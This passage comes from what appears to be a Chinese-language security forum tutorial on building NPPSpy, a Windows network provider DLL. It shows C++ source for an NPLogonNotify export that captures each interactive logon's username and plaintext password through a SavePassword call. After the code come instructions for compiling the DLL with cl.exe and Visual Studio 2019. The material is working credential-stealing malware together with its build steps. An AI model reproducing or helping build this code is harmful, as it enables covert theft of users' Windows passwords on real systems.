```cpp
        default:
            return 0;
    }
}

__declspec(dllexport)
DWORD
APIENTRY
NPLogonNotify(
    PLUID lpLogonId,
    LPCWSTR lpAuthInfoType,
    LPVOID lpAuthInfo,
    LPCWSTR lpPrevAuthInfoType,
    LPVOID lpPrevAuthInfo,
    LPWSTR lpStationName,
    LPVOID StationHandle,
    LPWSTR* lpLogonScript
)
{
    SavePassword(
        &(((MSV1_0_INTERACTIVE_LOGON*)lpAuthInfo)->UserName),
        &(((MSV1_0_INTERACTIVE_LOGON*)lpAuthInfo)->Password)
    );
    lpLogonScript = NULL;
    return WN_SUCCESS;
}

```

### 命令行(cl.exe)

打开开始菜单的`Visual Studio 2019`文件夹下的`x64 Native Tools Command Prompt for VS 2019`

![image-20211220004620166](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-df1ff25ee1eb133476eb029a5d9aada0944cbbaa.png)

执行以下命令即可生成dll：

```bash
cl.exe /LD NPPSpy.c
```

![image-20211220004914855](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-bc13d3f58f930fe0aa661ff5709626474c26e761.png)

### vs2019

![image-20211220004944753](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6bfd105af6633cdbe337a6d7323d231c6efacab7.png)

这里用模板新建完成之后，会看到两个头文件，两个源文件。其中的 `pch.h` 是用于预编译，是处于性能的考虑。

![image-20211220010448244](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-49ccc5b1da8d1c616e07f2af2b52fe780ba6ba17.png)

因此我们需要做出选择，要不要用自带的模板（预编译头）？
